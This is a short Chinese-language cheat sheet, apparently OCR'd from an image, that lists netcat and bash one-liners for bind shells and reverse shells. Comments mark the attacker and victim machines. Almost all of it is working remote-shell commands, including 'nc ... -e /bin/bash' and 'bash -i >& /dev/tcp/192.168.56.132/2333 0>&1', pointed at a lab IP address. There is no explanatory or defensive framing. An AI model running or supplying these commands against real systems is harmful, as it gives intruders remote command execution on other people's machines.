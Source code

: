 
# 脚本
## 主动shell
nc -lvvp 6666 -e /bin/sh   主动shell

nc 192.168.56.132 6666  攻击机联

## 反弹shell
nc 192.168.56.132 4444 -e /bin/bash    被攻击主动的联 132
nc -lp 4444     攻击机可以处理
  
##

bash -i >& /dev/tcp/192.168.56.132/2333 0>&1


bash -i > /dev/tcp/192.168.56.132/2333